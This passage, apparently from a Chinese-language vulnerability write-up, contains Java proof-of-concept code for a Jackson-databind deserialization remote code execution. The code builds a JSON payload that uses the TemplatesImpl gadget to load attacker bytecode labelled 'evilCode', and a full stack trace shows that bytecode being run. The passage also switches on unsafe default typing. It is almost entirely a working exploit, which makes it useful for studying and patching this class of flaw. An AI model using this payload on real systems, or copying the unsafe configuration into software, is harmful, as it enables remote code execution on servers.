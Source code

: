 ```java
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String evilCode = readClass("/Jackson/Jackson-databind-RCE-PoC/target/classes/jackson/Test.class");
        final String JSON = aposToQuotes(
                "{"
                        +" 'obj':[ '"+NASTY_CLASS+"',\n"
                        +"  {\n"
                        +"    'transletBytecodes' : [ '"+ evilCode +"' ],\n"
                        +"    'transletName' : 'a.b',\n"
                        +"    'outputProperties' : { }\n"
                        +"  }\n"
                        +" ]\n"
                        +"}"
        );
        System.out.println(JSON);
        ObjectMapper mapper = new ObjectMapper();
        mapper.setSerializationInclusion(JsonInclude.Include.NON_NULL);
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(JSON, Bean1599.class);
            System.out.println("Should not pass");
        } catch (Throwable e) {
            e.printStackTrace();
        }
    }
}
```

整个完整调用栈如下

```
<init>:21, Test (jackson)
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:408, Constructor (java.lang.reflect)
newInstance:433, Class (java.lang)
getTransletInstance:387, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:418, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:439, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:483, Method (java.lang.reflect)
deserializeAndSet:105, SetterlessProperty (com.fasterxml.jackson.databind.deser.impl)
vanillaDeserialize:260, BeanDeserializer (com.fasterxml.jackson.databind.deser)
deserialize:125, BeanDeserializer (com.fasterxml.jackson.databind.deser)
_deserialize:110, AsArrayTypeDeserializer (com.fasterxml.jackson.databind.jsontype.impl)
deserializeTypedFromAny:68, AsArrayTypeDeserializer (com.fasterxml.jackson.databind.jsontype.impl)
deserializeWithType:554, UntypedObjectDeserializer$Vanilla (com.fasterxml.jackson.databind.deser.std)
deserialize:493, SettableBeanProperty (com.fasterxml.jackson.databind.deser)
deserializeAndSet:101, FieldProperty (com.fasterxml.jackson.databind.deser.impl)
vanillaDeserialize:260, BeanDeserializer (com.fasterxml.jackson.databind.deser)
deserialize:125, BeanDeserializer (com.fasterxml.jackson.databind.deser)
_readMapAndClose:3807, ObjectMapper (com.fasterxml.jackson.databind)
readValue:2797, ObjectMapper (com.fasterxml.jackson.databind)
main:72, Poc (jackson)
```
